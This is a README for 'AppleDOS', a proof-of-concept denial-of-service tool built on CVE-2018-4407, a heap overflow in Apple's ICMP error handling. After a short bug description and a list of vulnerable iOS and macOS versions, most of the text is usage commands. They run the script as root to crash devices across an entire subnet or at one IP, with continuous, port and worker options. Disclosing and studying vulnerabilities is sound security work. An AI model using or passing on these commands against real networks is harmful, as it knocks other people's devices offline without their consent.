

# AppleDOS (CVE-2018-4407)

Based on CVE-2018-4407 (https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407), this [tweet](https://twitter.com/ihackbanme/status/1057811965945376768), and this [video](https://twitter.com/kevin_backhouse/status/1057352656560287746). The bug is heap overflow vulnerability in bad packet handling through ICMP response message.



This POC will crashes the vulnerable Apple devices by sending bad TCP packet data containing long TCP/IP header options to overflow the ICMP message when device try to send out the error message. You need the ability to send network packet data directly to the device (e.g. on the same local network).

The following operating system versions and devices are vulnerable:
- Apple iOS 11 and earlier: all devices
- Apple macOS High Sierra, up to and including 10.13.6: all devices
- Apple macOS Sierra, up to and including 10.12.6: all devices
- Apple OS X El Capitan and earlier: all devices

## Example

Make sure you have Python 3 and scapy.

```
pip install scapy
# or
pip3 install scapy
```

You may need to run the script as root.

Send bad packet to 192.168.1.0/24 subnet.

```
sudo ./appledos.py 192.168.1.0/24
```

Shows IP after packet sent.

```
sudo ./appledos.py --verbose 192.168.1.0/24
```

Send bad packet to 192.168.1.0/24 subnet continuously.

```
sudo ./appledos.py --continuous 192.168.1.0/24
```

Change destination port (default: 80).

```
sudo ./appledos.py --continuous --port 22 192.168.1.0/24
```

Send bad packet to only one IP.

```
sudo ./appledos.py 192.168.1.118
```

Set maximum workers (default: 10).

```
sudo ./appledos.py --worker 10 192.168.1.0/24
```

## Note

This script is using scapy and it has know issue for handling `/dev/bpf` (Berkeley Packet Filter) when sending packet data from OS like macOS with multi-thread. If you encounter `No /dev/bpf handle is available`, try to reduce the worker number to 1 or 2. Or, you can just use Linux like in the demonstration video.